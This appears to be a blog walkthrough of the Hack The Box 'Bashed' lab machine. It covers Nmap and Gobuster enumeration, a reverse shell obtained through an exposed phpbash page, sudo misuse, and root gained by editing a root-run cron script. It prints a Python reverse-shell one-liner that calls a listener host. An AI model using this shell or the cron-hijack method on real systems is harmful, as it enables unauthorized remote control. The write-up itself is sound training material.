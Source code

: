 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy,sudo,cron]
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/118>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/9.png)

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/10.png)

I got Root!
